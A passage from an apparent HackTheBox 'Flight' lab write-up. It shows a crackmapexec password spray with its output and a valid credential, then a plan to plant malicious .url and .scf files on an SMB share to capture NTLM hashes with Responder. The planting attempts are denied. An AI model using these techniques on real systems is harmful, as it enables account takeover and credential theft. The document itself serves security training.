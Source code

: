 Nice, we've found several. Lets add them to a file called users.txt

After not finding much of interest in the SMB shares, I decided to try spraying the password we have against our users list:

```
┌──(ryan㉿kali)-[~/HTB/Flight]
└─$ crackmapexec smb flight.htb -u users.txt -p 'S@Ss!K@*t13' --continue-on-success
SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         flight.htb      445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\krbtgt:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [-] flight.htb\G0$:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         flight.htb      445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
```

Nice, it looks like S.Moon is using the same password as svc_apache.

Unfortuantely we still don't have local auth privileges on the target, but what is interesting is we now have both read and write access to the Shared SMB share, whereas svc_apache only had read permissions.

![flight_smoon_shares.png](../assets/flight_assets/flight_smoon_shares.png)

This makes me think we may be able to achieve more NTLM theft by puting a malicious file in the Shared share, setting up another Responder listener, and capturing the hash of whoever click on our file; just like we did for svc_apache.

Unfortunately the attempts I made were getting denied:

```
smb: \> put shell.url
NT_STATUS_ACCESS_DENIED opening remote file \shell.url
...

smb: \> put shell.scf
NT_STATUS_ACCESS_DENIED opening remote file \shell.scf
```
